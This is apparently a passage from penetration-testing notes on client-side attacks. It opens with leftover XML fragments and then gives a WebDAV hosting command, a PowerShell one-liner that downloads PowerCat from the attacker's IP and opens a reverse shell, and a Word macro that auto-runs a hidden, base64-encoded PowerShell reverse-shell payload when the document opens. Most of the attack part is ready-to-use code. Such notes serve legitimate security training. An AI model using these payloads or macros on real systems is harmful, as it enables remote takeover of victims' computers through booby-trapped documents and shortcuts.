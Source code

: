 ```
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription> 
 ```


Then we can run to start hosting a WebDav server:

```
 wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root
/home/kali/webdav/ 
 ```

And inside we must create a shortcut that will download PowerCat and start a reverse shell \(note that we also have to start a server on port 8000 to host PowerCat\):

```
 powershell.exe -c "IEX(New-Object
System.Net.WebClient).DownloadString('http://{our
IP}:8000/powercat.ps1');
powercat -c {our IP} -p 4444 -e powershell" 
 ```


For Word Macros\. check this example:

```
 Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str +
"AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str +
"AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str +
"QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str +
"gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub 
 ```


For more check here: [https://github.com/glowbase/macro_reverse_shell](#https://github.com/glowbase/macro_reverse_shell)
